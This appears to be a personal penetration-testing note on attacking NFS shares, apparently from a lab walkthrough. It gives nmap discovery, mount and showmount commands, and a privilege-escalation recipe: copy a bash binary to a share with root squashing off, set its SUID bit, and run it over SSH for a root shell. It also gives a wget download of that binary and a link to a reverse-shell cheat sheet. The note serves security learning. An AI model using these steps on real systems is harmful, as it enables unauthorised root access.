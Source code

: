 --- ---

<h2>Find NSF Port</h2>

Nmap
```
nmap -sV -SC IP -p111
```

- Possible to find NSF on an other port

---

<h2>Attack & Connection</h2>

- Mounting Vulnerable Shared Folder (NSF-COMMON)
```Terminal
sudo mount -t nfs IP:FOLDER /tmp/mount/ -nolock   (Connect to the shared file)

- /usr/sbin/showmount -e [IP]                     (List the NFS shares)
```

- mount             ---> Execute the mount command
- -t nfs               ---> Type of device to mount, then specify that it's NFS
- IP:share           ---> Target server IP and vulnerable share folder
- -nolock            ---> Specifies not to use NLM Locking

More information about NSF-COMMON ---> https://vitux.com/install-nfs-server-and-client-on-ubuntu/

- Exploitation (Set**SUID**)
```Terminal
Download Bash Script
- cp ~/Downloads/bash /DESTINATION FOLDER
- chmod +x bash && chmod +s bash
- ls -la bash (check file permission)
- ./bash -p (Run script with persistence (On SSH low privilege))
```

- More information
	**What is root_squash?**

	By default, on NFS shares- Root Squashing is enabled, and prevents anyone connecting to the NFS share from having root access to the NFS volume. Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges. Not what we want. However, if this is turned off, it can allow the creation of SUID bit files, allowing a remote user root access to the connected system.

	**SUID**

	So, what are files with the SUID bit set? Essentially, this means that the file or files can be run with the permissions of the file(s) owner/group. In this case, as the super-user. We can leverage this to get a shell with these privileges!

	**Method**

	This sounds complicated, but really- provided you're familiar with how SUID files work, it's fairly easy to understand. We're able to upload files to the NFS share, and control the permissions of these files. We can set the permissions of whatever we upload, in this case a bash shell executable. We can then log in through SSH, as we did in the previous task- and execute this executable to gain a root shell!

	**The Executable**

	Due to compatibility reasons, we'll use a standard Ubuntu Server 18.04 bash executable, the same as the server's- as we know from our nmap scan. You can download it [here](https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash). If you want to download it via the command line, be careful not to download the github page instead of the raw script. You can use `wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash`.  

	**Mapped Out Pathway:**

	If this is still hard to follow, here's a step by step of the actions we're taking, and how they all tie together to allow us to gain a root shell:

	![[Pasted image 20220922212950.png]]

- Reverse Shell ---> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

---

<h2>What is NSF</h2>

NFS stands for "**Network File System**" and allows a system to share directories and files with others over a network. By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

- **How does NFS work?**

	We don't need to understand the technical exchange in too much detail to be able to exploit NFS effectively- however if this is something that interests you, I would recommend this resource: [https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html](https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html)

	First, the client will request to mount a directory from a remote host on a local directory just the same way it can mount a physical device. The mount service will then act to connect to the relevant mount daemon using RPC.

	The server checks if the user has permission to mount whatever directory has been requested. It will then return a file handle which uniquely identifies each file and directory that is on the server.

	If someone wants to access a file using NFS, an RPC call is placed to NFSD (the NFS daemon) on the server. This call takes parameters such as:

	-    The file handle
	-    The name of the file to be accessed
	-    The user's, user ID
	-    The user's group ID  

	These are used in determining access rights to the specified file. This is what controls user permissions, I.E read and write of files.  

- **What runs NFS?**

	Using the NFS protocol, you can transfer files between computers running Windows and other non-Windows operating systems, such as Linux, MacOS or UNIX.

	A computer running Windows Server can act as an NFS file server for other non-Windows client computers. Likewise, NFS allows a Windows-based computer running Windows Server to access files stored on a non-Windows NFS server.

- **More Information:**

	Here are some resources that explain the technical implementation, and working of, NFS in more detail than I have covered here.

[https://www.datto.com/library/what-is-nfs-file-share](https://www.datto.com/library/what-is-nfs-file-share)
[http://nfs.sourceforge.net/](http://nfs.sourceforge.net/)
[https://wiki.archlinux.org/index.php/NFS](https://wiki.archlinux.org/index.php/NFS)
